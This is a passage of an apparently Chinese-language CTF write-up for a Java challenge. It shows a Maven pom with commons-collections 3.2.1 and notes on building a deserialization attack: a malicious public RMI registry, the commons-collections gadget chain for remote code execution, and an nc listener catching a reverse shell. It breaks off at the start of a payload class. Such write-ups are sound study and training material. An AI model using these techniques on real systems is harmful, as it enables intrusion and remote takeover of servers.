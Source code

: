 ```xml
		<dependency>
			<groupId>org.nibblesec</groupId>
			<artifactId>serialkiller</artifactId>
			<version>0.4</version>
		</dependency>

		<dependency>
			<groupId>commons-collections</groupId>
			<artifactId>commons-collections</artifactId>
			<version>3.2.1</version>
		</dependency>

		<dependency>
			<groupId>org.springframework.boot</groupId>
			<artifactId>spring-boot-starter-test</artifactId>
			<scope>test</scope>
		</dependency>
	</dependencies>

	<build>
		<plugins>
			<plugin>
				<groupId>org.springframework.boot</groupId>
				<artifactId>spring-boot-maven-plugin</artifactId>
			</plugin>
		</plugins>
	</build>

</project>

```

这里我误入歧途了还，因为rmi在java旧版本本身也有rce，后来看眼版本应该是不太可能。

特别建议复现一个环境出来，因为发现了各种问题。

使用idea编辑器，开spring boot项目配置 maven环境， 复制pom.xaml进去配置好环境。

这里有两个坑，一个是magic number那里，需要重写payload的User里write Object方法，而不是自己在oos（outPutStream）里写入（writeInt）

还有一个坑，反序列化之后有一个**serialVersionUID**的玩意儿，这些都是需要在自己复现的环境里开debug一点一点调才能调出来的，在payload中自己定义好**serialVersionUID**使得反序列化能够被正常读取。

构造函数是不能改的，否则反序列化会出问题，使用反射更改registry

自己需要有一个公网服务器，用来当rmi注册中心（下毒的），使得任意反序列化发生在Client端（试图调用rmi的Remote接口的服务器），随后通过cc链达到rce，随后nc开一个监听端口接收被攻击端的反弹shell达成getshell

payload如下：

再开一个项目，把User的构造函数、方法和变量照抄，自定义serialVersionUID，重写writeObject方法
```java
package ctf.minil.java.minil.bean;

import java.io.*;
import java.rmi.registry.Registry;

public class User implements Serializable {

    private static final long serialVersionUID = -1464281268829007195L;

    private String username;

    private int age;

    private Registry registry;

```